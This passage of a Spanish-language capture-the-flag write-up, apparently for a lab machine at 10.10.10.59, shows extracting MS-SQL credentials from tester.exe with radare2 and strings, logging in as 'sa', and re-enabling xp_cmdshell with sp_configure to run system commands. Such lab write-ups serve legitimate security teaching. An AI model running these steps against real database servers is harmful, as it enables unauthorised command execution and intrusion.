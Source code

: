 ```bash
radare2 tester.exe
> aaa
> s main
> pdf
```

Bueno aqui podemos ver un usuario y una contraseña para la base de datos MS-SQL 

> [ ! ]NOTAS: tambien se podria usar el commando `strings tester.exe | grep "PWD" | tr ';' '\n' | batcat`

### Conneccion a la base de datos {-}

```bash
sqsh -S 10.10.10.59 -U 'sa'
password: ********
```

Es valida y estamos connectado a la base de datos

```bash
xp_cmdshell "whoami"
go
```

El commando xp_cmdshell a sido desactivado. Vamos a activar la possiblidad de ejecutar commandos.

```bash
sp_configure "show advanced options", 1
reconfigure
go

sp_configure "xp_cmdshell", 1
reconfigure
go
```

Ya podemos ejectuar commandos

```bash
xp_cmdshell "whoami"
go

#Output
tally\sarah
```

> [ ! ]NOTAS: tambien se podria usar el commando `impacker-mssqlclient WORKGROUP/sa@10.10.10.59` y con este commando no tendriamos que darle siempre a go.

Como tenemos possiblidad de ejecutar commandos a nivel de systema, nos vamos a connectar a la maquina.
## Vuln exploit & Gaining Access {-}

### Ganando accesso con MS-SQL {-}
